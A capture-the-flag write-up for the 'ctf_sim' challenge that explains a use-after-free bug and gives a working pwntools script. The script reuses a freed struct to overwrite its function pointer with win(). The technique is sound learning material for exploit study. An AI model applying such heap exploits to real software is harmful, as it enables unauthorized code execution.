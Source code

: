 # ctf_sim

Points: 356

This was a uaf based challenge that I solved after the CTF. I'll now take you through it.

## Preliminary analysis:
```
ctf_sim: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2761071c48f75292676a4dabec103db701a4cee3, not stripped
```
```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
gef➤  
```
As we can see, only NX bit is enabled, and it is a 64-bit dynamically linked binary. Let us move onto analyzing the binary. 

As we run the binary, we see 4 options - download challenge, solve challenge, submit writeup for challenge, and exit. 
```
CTF SIM
1. Download a Challenge
2. Solve a Challenge
3. Submit a writeup
4. Quit
> 
```
The following functions:
- `download challenge()` provides us a choice to choose one of the categories, (all the challenges are structures which contain a function), and saves it into a `downloaded` array, however the maximum index we can reach is 3, which means we can download atmost 3 challenges. 
- `solve challenge()` calls the fucntion `solve` of the structure, and then frees the allocated area of the structure. Libc version used is: `ldd (Ubuntu GLIBC 2.31-0ubuntu9.7) 2.31`. One thing to notice here is that, we can reuse the same chunk by requesting a chunk of the same size. After freeing it, we can reuse to point to win, thus when the function solve() is called again inside the structure, the pointer to win() will call the win() function instead. 
This cane be seen from the line: `downloaded[index] -> solve();` 
Hence making use of the UAF bug available.
- `submit writeup()` takes input from the reader. Here, we submit a writeup of 16 bytes, and provide the pointer to win() function as our payload. 
    
Thus our process involves:
- download a challenge, store it at any index.
- solve the challenge download, so as to free the allocated area of the strcture.
- submit writeup for the solved challenge, (providing a pointer to win() as the paylaod so that, when solve() function is called again, win() will be called instead.)
- solve the same downloaded and freed challenge again, so as to call win() this time.
    
## Exploit:
```
def download(cat, ind):
	p.recv()
	p.sendline('1')
	p.sendline(bytes(cat))
	p.sendline(bytes(ind))

def solve_chall(ind):
	p.recv()
	p.sendline('2')
	p.sendline(bytes(ind))
	
def writeup(length, content):
	p.recv()
	p.sendline('3')
	p.sendline(bytes(length))
	p.sendline(content)

from pwn import *

#p = remote("tamuctf.com", 443, ssl=True, sni="ctf-sim")
p = process('./ctf_sim')
gdb.attach(p)
win_ptr = 0x404088

download(1, 1)

solve_chall(1)

pay = p64(win_ptr)
writeup(16, pay)

solve_chall(1)	

p.interactive()
```


